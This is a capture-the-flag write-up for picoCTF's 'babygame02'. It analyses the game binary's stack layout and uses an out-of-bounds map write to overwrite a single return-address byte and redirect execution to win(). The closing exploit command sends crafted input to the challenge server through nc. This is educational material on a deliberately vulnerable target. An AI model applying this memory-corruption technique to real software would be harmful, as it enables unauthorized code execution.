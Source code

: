# babygame02 #
 
## Overview ##
 
200 points
 
Category: [Binary Exploitation](../)
 
Tags : `#writewhatwhere #bufferunderflow #returnaddress #outofbounds #integermath`
 
## Description ##
 
Break the game and get the flag.
Welcome to BabyGame 02! Navigate around the map and see what you can find! The game is available to download here. There is no source available, so you'll have to figure your way around the map. You can connect with it using `nc saturn.picoctf.net <port>`.
 
## Approach ##

Began by disassembling the `game` binary within [Ghidra](https://ghidra-sre.org) and analysing the output.

Also checked the binary security with [pwntools](https://python3-pwntools.readthedocs.io/en/latest/index.html) `checksec` :

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

This challenge is a variant of the [babygame01](../babygame01/babygame01.md) challenge, the flag win condition differs in that the `win()` function is not explicitly called in `babygame02`, hence a modification of the return address or similar means of execution is required.

The binary security indicates no stack canaries are in use, so we won't need to be careful of those.

Visualising the stack frame of `main()` from the disassembly to show placement and relative offsets of local variables and other elemts on the stack. I've augmented the variables with their purpose obtained from analysis of functions (`main()`, `init_player()` and `move_player()`) :

             (stack top - lower address)
       
    0xffffca90  |------------------| ($ESP - 0xAA0)
                |                  |
    0xffffca98  | player_y_pos     | [$EBP - 0xAA0]  int
                | player_x_pos     | [$EBP - 0xA9C]  int
    0xffffcaa3  | map_buf          | [$EBP - 0xA95]  char[2700] 
                | input_char       | [$EBP - 0x9]    char
    0xffffd530  | Saved $ECX       | [$EBP - 0x8]
    0xffffd534  | Saved $EBX       | [$EBP - 0x4]
    0xffffd538  | Previous $EBP    | <--- $EBP
                |------------------|
                |                  |
 
`move_player(player_y_pos, input_ch, map_buf)` contains the same exploitable line of code that forming a write-what-where primative. We control the player X and Y position and hence the address to write to, aswell as the byte to write through the ability to change the `player_title`. As this is similar to [babygame01](../babygame01/babygame01.md), refer to my write up for further details.

    map_buf[(player_y_pos * 0x5a) + player_x_pos)] = player_title

This time we must overwrite a return address on the stack with the addres of the `win()` function to dumps the flag instead of overwriting a local variable of `main()`.

The behaviour of `move_player()` is slightly different in babygame02, in that before moving the player it writes to the previous player position (before move), clearing it with '.' (0x2e) character before updating and writing the new player position. This means cycling this exploit to write multiple bytes is not possible as it corrupts the previous byte written with the clear. Therefore we need to find a location where only one write operation is required to divert the flow of execution to the `win()` function address.

Function addresses from disassembly :

    `win()` address   = 0x08049770
    `main()` address  = 0x08049709

The address for `win()` is after the stack management code at which what looks like a "NOP slide" can be seen, so anywhere in that series of `NOP`s was a good enough target.

The address for `main()` above is the instruction immeditely afder the `CALL move_player()` (i.e. the return address from `move_player()`).

Again, using `gdb` and the Ghidra disassembly to visual the stack frame of `move_player()` :

                |                        |
    0xffffca78  | old EBP                | <--- $EBP
                |------------------------|
    0xffffca7c  | return address         |  = `main()+149` : 0x8049709
                |------------------------|
    0xffffca80  | param1 - &player_y_pos |
    0xffffca84  | param2 - input ch      |
    0xffffca88  | param3 - map_buf       |
                |------------------------|
    0xffffca8c  |        ?               |
    0xffffca90  |------------------------|    
    0xffffca90  | main() stack frame     |
                |                        |

So, first off the value of the last byte of the target address we want to replace in our return address from `move_player()` is `0x70` (or character `p`), we can use the in game command `lp` to set our player position title to this value such that it gets written on player move to the `map_buf`. 

Now to calculate the underflow required to hit our return address on the stack from the `map_buf`.

    (return_address = 0xffffca7c) - (map_buf = 0xffffcaa3) = -39 bytes underflow required

Due to the new behaviour of the `move_player()` function that clears the previous player position, we do not really want to be iteratively moving our character from `{ 0, 0 }` through to an X position of -39, as this would be overwritting values in the stack along the way (including our player_x_pos, player_y_pos local variables).

Therefore, the approach taken was to move the player into a valid X-Position, that satisfies the -39 bytes overflow when Y-Position is moved to -1. Therefore we only ever write the one byte outside of `map_buf`, our target byte.

    map_buf[(player_y_pos * 0x5a) + player_x_pos)] = player_title
    map_buf[(-1 * 90) + player_x_pos)] = 0x70 ('p')

    player_x_pos = -39 - (-1 * 90) = 51

Also keep in mind the player starts at position `{ 4, 4 }` as initialised within `init_player()`, so we must keep this in mind when issuing move commands to move into position.

## Solution ##
 
Plan of attack :

1. set the player_title character to the last byte of `win()` return address, using the `l` command
2. move player into the target position on the x-axis, from the starting position of 4
3. move player into position on the y-axis from starting position of 4, underflowing at y_pos = -1

Final exploit :

    echo -e $(python3 -c 'print("lp" + "d"*(51-4) + "w"*5)') | ./game
    
    echo -e $(python3 -c 'print("lp" + "d"*(51-4) + "w"*5)') | nc saturn.picoctf.net 52597

Had to run a few times on the remote server to work, possibly due to the process exiting before fully flushing stdout via nc?? not sure.
